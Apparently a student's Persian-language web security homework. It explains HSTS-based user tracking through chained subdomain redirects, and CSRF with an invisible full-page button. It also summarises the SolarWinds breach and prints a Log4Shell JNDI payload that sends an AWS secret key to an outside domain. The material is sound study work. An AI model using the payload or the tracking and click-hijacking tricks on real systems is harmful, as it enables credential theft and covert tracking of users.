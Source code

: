# 1
- False
- False
- False
- True
# 2
اگر با پروتکل https یک سایت را باز کنیم،
 دیگر مرورگر(حداقل کروم را من تست کردم) 
به ما امکان ارسال درخواست http به همان دامین را نمیدهد و 
یا اگر سایت را با http باز کنیم ولی هدر HTTP Strict Transport Security 
ست شده باشد مرورگر ما پروتکل را به https تغییر میدهد.
نکته ای که وجود دارد این است که مرورگر این موضوع را 
در یک دیتابیسی ذخیره میکند(به ازای هر دامین) که آیا باید https بزند یا خیر
میتوانیم از این دیتابیس که به ازای هر دامین یک boolean ذخیره میکند
استفاده کنیم و کاربر را نام گذاری کنیم و از آن به بعد 
هویت آن کاربر را حین بازدید از سایت های مختلف داشته باشیم.
حتی بعضی بروزر ها این دیتابیس بین حالت privary و عادی share است و 
یعنی هویت در حالت privary هم ممکن است قابل مشاهده باشد.
  مثلا یک مدل پیاده سازی این است که کاربر را به آدرس
   `http://0.mydomain.com/uniuqe_id/`
ریدایرکت کنیم و این ادرس مارا به آدرس
   `http://1.mydomain.com/uniuqe_id/`
و همینطور پیش برویم تا به مثلا آدرس ۱۰۰-ام برسیم
و پیاده سازی هر کدام به این صورت باشد که آدرس 
   `http://i.mydomain.com/uniuqe_id/`
 در پاسخ هدر HSTS را روشن کند اگر بیت i-ام unique_id ترو بود
 این گونه میتوانیم ۱۰۰بیت داخل دیتابیس ذخیره کنیم
 فرض کنید unique_id یک رشته رندم شامل کاراکتر های ۰ و ۱ است.
# 3
- اگر متد ما گت باشد میتوانیم
 از عکس استفاده کنیم و آدرس را مقدار دهی کنیم ولی اگر 
پست باشد برای انجام این حمله، به یک اسکریپت که فرم را
 ارسال کند نیاز داریم،
  پس این حمله نیاز دارد که کاربر روی یک دکمه
  کلیک کند و میتوانیم یک دکمه به اندازه تمام صفحه و نامرعی
  تولید کنیم تا کاربر هر جای صفحه کلیک کرد فرم حمله فایر شود
- این حمله کاملا سمت سرور اجرا میشود حتی با دستور کرل هم میشود این حمله را زد
- اکثر حملمه هایی که ما انجام میدادیم بدون جاوا اسکریپت ممکن نبودند، 
 زیرا منطق این حمله اجرا شدن اسکریپت در بروزر بود
  ولی مثلا اگر کد بکند یک سایتی درصورت اعمال شرایط خاصی ورودی کاربر
   را اجرا کند شاید بتوانیم بگوییم این نوع حمله را انجام داده ایم 
- میتوانیم بدون استفاده از جاوا اسکریپت یک سایت 
طراحی کنیم که کاملا شبیه درگاه پرداخت باشد و حمله را انجام دهیم
# 4
- محصول orion که توسط Solar Wind تولید و
 توسعه شده است توسط کمپانی های بزرگی استفاده میشد.
 هکر ها توانستند با دسترسی پیدا کردن به سرور های آپدیت این نرم افزار 
 کد مخرب را جایگزین کنند و
  پس از upgrade شدن نرم افزار توسط شرکت های ثالث هکر ها
  با استفاده کد مخرب که داخل اپدیت ها 
 قرار داده بودند دسترسی های مختلفی گرفتند.
- Microsoft, Intel, Cisco, Deloitte, FireEye, ...
- به نظر من پاسخ integrity است زیرا update ها توسط هکر ها عوض شده بودند
 و امضای آن فایل باید از بین میرفت 
-  دلیل اصلی این مشکل یک کارآموز بوده که
 با استفاده از پسور ضعیف(solarwinds123) تمام سیستم را به خطر انداخته است 
و همچنین ظاهرا این رمز داخل GitHub به صورت عمومی نیز منتشر شده بوده
- 
- به نظر من میتوانیم با امضا کردن فایل های آپدیت 
تا حد خوبی جلوی این مشکل را بگیریم و فایل های آپدیت را
امضا شده داخل update server ها قرار بدهیم 
به این صورت که حتی اگر دسترسی کامل به update server ها داشته باشیم صرفا میتوانیم پروسه آپدیت نرم افزار را مختل کنیم
همچنین محدود کردن دسترسی های نرم افزار Orion میتواند کمک کننده باشد.
# 5
امکان lookup در log4j به ما امکان لاگ کردن مقادیر
 از environment و یا از external resources را میدهد.
و اگر user input را لاگ کرده باشیم، امکان دارد یک jndi lookup باشد
 و مقادیر environment را به سرور خارجی منتقل کند و 
یا با لود کردن آبجکت های جاوا code execution انجام دهد.
مانند این:
${jndi:ldap://mydomain.com/${env:AWS_SECRET_ACCESS_KEY}}
